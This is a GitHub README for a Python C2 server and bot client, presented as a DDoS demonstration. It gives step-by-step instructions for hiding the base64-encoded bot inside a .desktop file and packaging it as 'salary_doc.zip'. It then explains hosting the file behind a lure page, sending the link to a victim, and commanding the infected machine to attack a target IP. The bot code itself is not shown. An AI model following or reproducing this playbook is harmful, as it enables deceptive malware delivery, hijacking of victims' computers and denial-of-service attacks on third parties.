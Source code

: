 # C2_Server
This repository contains code for a C2 server and Bot client I built using Python. This demonstrates how a ***DDOS (Distributed Denial of Service) Attack*** takes place.

# More Info
The bot_client.py code in the C2_SERVER folder is encoded and placed inside a bot.desktop application to bypass or hide its main intent. You can create an encoding of bot_client.py by running:
```bash
$ base64 bot_client.py > encoded.txt
```
Once that is done, create a **bot.desktop** file and fill in the content of the encoded.txt in the **Exec=** section of the **bot.desktop** file.
Next, let's zip it:
```bash
$ zip salary_doc.zip bot.desktop
```
Next, start up the **c2_server.py** code from your Kali or attacker's terminal:
```bash
$ python3 c2_server.py
```
Next, host this **salary_doc.zip** using Apache2 as it comes pre-installed on Kali Linux. Host it at ***/var/www/html/check_salary.html*** with the following content:
```bash
<html>
<body>
        <a href="salary_doc.zip">Click to download</a>
</body>
</html>
```
Next, send the link to the victim or the target machine or computer, once they click on **Click to download**, their browser will automatically start downloading the salary_doc.zip file.
Once they unzip and click on it, your running C2 server will receive a connection from the machine! You can now send a command to it via your C2 server: 
```bash
$ attack <ip>
```

This will inform or instruct the victim machine (now our bot) to attack the target IP or machine. This kinda demonstrates a **DDOS (Distributed Denial of Service)** attack!

**HAPPY HACKING!**
